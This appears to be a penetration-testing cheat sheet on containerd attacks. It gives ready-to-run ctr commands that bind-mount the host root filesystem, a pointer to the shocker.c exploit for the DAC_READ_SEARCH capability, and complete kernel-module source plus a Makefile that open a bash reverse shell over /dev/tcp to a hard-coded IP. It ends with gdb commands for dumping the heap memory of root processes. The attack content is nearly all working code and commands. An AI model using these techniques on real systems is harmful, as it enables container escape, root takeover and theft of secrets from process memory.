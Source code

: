 # Containerd Attacks

## 1. Use case -User privileges in a host which is running Containerd

* `ctr image list` Check containerd images&#x20;
* Next Start a container and add it to host machine&#x20;
  * `ctr run --mount type=bind,src=/,dst=/,options=rbind -t ubuntu:latest ubuntu bash`
  * After that point you can reach root file system.&#x20;

## 2. Use Case - Abusing DAC\_READ\_SEARCH Capability

* Start a container in root mode with privileges.
* &#x20;`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`
* Check `capsh --print`
  * And find cap\_dac\_read\_search
  * `mount`
  * Check /etc/hosts is mounted or not
  * if it is there use the code [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  * Change there main function in order to give argument and read anything in host system.&#x20;
  * ![](../../.gitbook/assets/image.png)

## 3. Use Case - User privileges and Abusing SYS\_Module Capability

If there is a way of privs with user rights and taking root by using containers. Create containerd image there and check sys\_mod cap and after that reach root file system and heap of process there.&#x20;

`ctr image list`

`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`

Create that c file&#x20;

```

#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("Test");
MODULE_DESCRIPTION("Reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.0.2.15/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Create Makefile&#x20;

```

obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

`make`

Open another shell and run `nc -vnlp 4444`

`insmod reverse-shell.ko`

You have reached the root directories.

&#x20;**Reaching root process heaps with gdb**&#x20;

```
cat /proc/{PID Number}/maps
gdb --batch --pid {PID Number} -ex "dump memory heap.dump 0x55da28f1a000 0x55da28f3b000";
# take here heap section then

strings heap.dump
```



